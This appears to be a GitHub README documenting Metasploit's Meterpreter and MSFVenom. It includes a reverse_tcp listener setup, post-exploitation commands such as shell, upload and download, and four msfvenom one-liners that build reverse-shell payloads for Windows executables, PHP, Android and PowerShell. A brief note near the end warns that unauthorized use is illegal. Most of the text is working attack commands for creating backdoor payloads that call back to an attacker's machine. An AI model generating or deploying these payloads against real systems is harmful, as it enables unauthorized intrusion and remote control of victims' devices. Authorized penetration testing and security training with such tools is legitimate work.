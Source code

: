 # meterpreter-experience
# Meterpreter and MSFVenom - Documentation

## Meterpreter

### Introduction

Meterpreter is a powerful tool that comes with the Metasploit Framework. It is used for gaining remote access to systems and executing various tasks on a compromised computer. This document will provide you with information on the installation and usage of Meterpreter.

### Installation

To use Meterpreter, you need to have the Metasploit Framework installed on your system. The installation of Metasploit may vary depending on your operating system.

#### Linux

```bash
sudo apt-get update
sudo apt-get install metasploit-framework
```

#### macOS

```bash
brew install metasploit
```

#### Windows

Download the installer from the official Metasploit website: [Metasploit Download](https://www.metasploit.com/download)

### Using Meterpreter

#### Launching Meterpreter

```bash
msfconsole
use exploit/multi/handler
set PAYLOAD windows/meterpreter/reverse_tcp
set LHOST your_ip_address
set LPORT your_port
exploit
```

#### Basic Meterpreter Commands

1. **`help`**: Display a list of available commands.
2. **`sysinfo`**: Display information about the operating system and hardware.
3. **`shell`**: Open a command prompt on the operating system.
4. **`upload`**: Upload a file to the remote computer.
5. **`download`**: Download a file from the remote computer.

More commands and functions can be found in the [official Meterpreter documentation](https://www.metasploitunleashed.com/meterpreter-basics/).

## MSFVenom

### Introduction

MSFVenom is a tool within the Metasploit Framework used for creating custom malicious files. You can generate various types of files, including executables, scripts, exploits, and more. This document will provide you with information on the installation and usage of MSFVenom.

### Installation

MSFVenom is installed along with the Metasploit Framework. Make sure you have Metasploit installed on your system, as indicated in the previous section.

### Using MSFVenom

#### Generate Shellcode for Meterpreter

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=your_port -f exe > payload.exe
```

#### Generate Shellcode for PHP

```bash
msfvenom -p php/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=your_port -f raw > payload.php
```

#### Generate Shellcode for Android

```bash
msfvenom -p android/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=your_port -o payload.apk
```

#### Generate Shellcode for PowerShell

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=your_ip_address LPORT=your_port -f psh -o payload.ps1
```

More parameters and options can be found in the [official MSFVenom documentation](https://www.metasploitunleashed.com/msfvenom/).

## Security Considerations

It's essential to remember that using Meterpreter and MSFVenom for unauthorized access to systems or networks is unlawful and can lead to legal consequences. All actions should only be performed with proper authorization.

Explore official Metasploit materials thoroughly and ensure proper authorization before any scanning or attacks.

Useful resources:
- [Metasploit Unleashed](https://www.metasploitunleashed.com/)
- [Official Metasploit Documentation](https://metasploit.help.rapid7.com/docs/metasploit-framework)
- [Official MSFVenom Documentation](https://www.metasploitunleashed.com/msfvenom/)

## License

This documentation is licensed by the [license](https://github.com/jj975/meterpreter-experience/blob/main/LICENSE).
